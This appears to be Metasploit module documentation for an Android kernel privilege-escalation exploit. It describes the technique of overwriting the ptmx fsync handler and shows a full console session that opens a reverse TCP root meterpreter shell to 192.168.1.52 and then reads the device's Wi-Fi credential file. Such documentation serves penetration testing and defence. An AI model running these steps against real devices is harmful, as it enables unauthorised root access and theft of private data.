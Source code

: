 ## Intro

This modules exploits a vulnerability in the linux kernel on an Android device, which allows an untrusted app to elevate to root priviledges. On Android an application normally runs as an individual linux user, sandboxing it from the Android system and other applications. After running the exploit the resulting session has full priviledge on the device, and can access the entire filesystem and the private data files of every other app, including system apps.

The exploit uses a read kernel memory primitive to first figure out the correct offsets for the device, before using the write primitive to overwrite the ptmx.fsync handler to a function that will elevate the current process to root. Finally /dev/ptmx is opened, and fsync called to trigger the exploit.

This exploit should work on any vulnerable device and is not device specific. In the example below a Samsung Galaxy S4 running Android version 4.3 was targetted.

## Usage

You'll first need to obtain a session on the target device. Once the module is loaded, one simply needs to set the ```SESSION``` option and configure the handler. The exploit can take a while to run on the device so it is configured with ```WfsDelay``` option to wait 120 seconds for a session. If you have not had a session after this time you can assume the device is not vulnerable.

An example session follows:


```
msf exploit(handler) > sessions 

Active sessions
===============

  Id  Type                        Information          Connection
  --  ----                        -----------          ----------
  1   meterpreter dalvik/android  u0_a132 @ localhost  192.168.1.52:4444 -> 192.168.1.54:33549 (192.168.1.54)


msf exploit(handler) > use exploit/android/local/put_user_vroot

msf exploit(put_user_vroot) > set LHOST 192.168.1.52
LHOST => 192.168.1.52

msf exploit(put_user_vroot) > set LPORT 5555
LPORT => 5555

msf exploit(put_user_vroot) > set SESSION 1
SESSION => 1

msf exploit(put_user_vroot) > run

[*] Started reverse TCP handler on 192.168.1.52:5555 
[*] Loading exploit library /data/data/com.metasploit.stage/files/bwycy
[*] Loaded library /data/data/com.metasploit.stage/files/bwycy, deleting
[*] Waiting 120 seconds for payload
[*] Sending stage (388156 bytes) to 192.168.1.54
[*] Meterpreter session 2 opened (192.168.1.52:5555 -> 192.168.1.54:59580) at 2016-12-24 00:19:12 +0800


meterpreter > getuid 
Server username: uid=0, gid=0, euid=0, egid=0

meterpreter > cat /data/misc/wifi/wpa_supplicant.conf
ctrl_interface=wlan0
...

```
